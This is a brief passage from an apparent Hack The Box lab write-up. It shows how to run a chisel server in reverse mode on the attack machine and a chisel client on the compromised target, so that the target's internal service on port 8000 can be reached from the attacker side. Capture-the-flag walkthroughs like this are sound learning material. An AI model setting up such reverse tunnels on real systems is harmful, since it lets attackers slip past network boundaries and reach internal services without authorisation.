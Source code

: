 `chisel server -p 9001 --reverse`

![Untitled 18.png](PC/assets/Untitled%2018.png)

Next on the target machine run the following command to setup the client and also to port forward the internal service:

`chisel client <HTB_tunnel_IP>:9001 R:5000:localhost:8000`

Once you run the above command, if you check the server, you can see that the connection is established.

![Untitled 19.png](PC/assets/Untitled%2019.png)

Now in the attack machine, go to `localhost:5000` to take a look at the service running on the target machine.
